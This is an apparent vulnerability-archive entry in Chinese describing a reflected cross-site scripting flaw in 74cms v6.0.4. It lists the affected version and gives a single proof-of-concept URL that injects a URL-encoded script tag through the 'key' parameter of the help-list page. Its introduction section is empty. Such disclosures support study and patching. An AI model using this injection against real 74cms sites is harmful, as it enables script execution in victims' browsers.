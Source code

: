 ```yaml
---
title: 74cms v6.0.4 反射型xss
id: zhfly2797
---
```


# 74cms v6.0.4 反射型xss

## 一、漏洞简介

## 二、漏洞影响

74cms v6.0.4

## 三、复现过程

```
 http://www.0-sec.org/index.php?m=&c=help&a=help_list&key=137244gq1lw%3cscript%3ealert%281%29%3c%2fscript%3edutvxlqd4lq&__hash__=d7aa5a382f14d270c3ac4de8392b4e1d_a34adb2b339972672eb447276f69ee88 
```
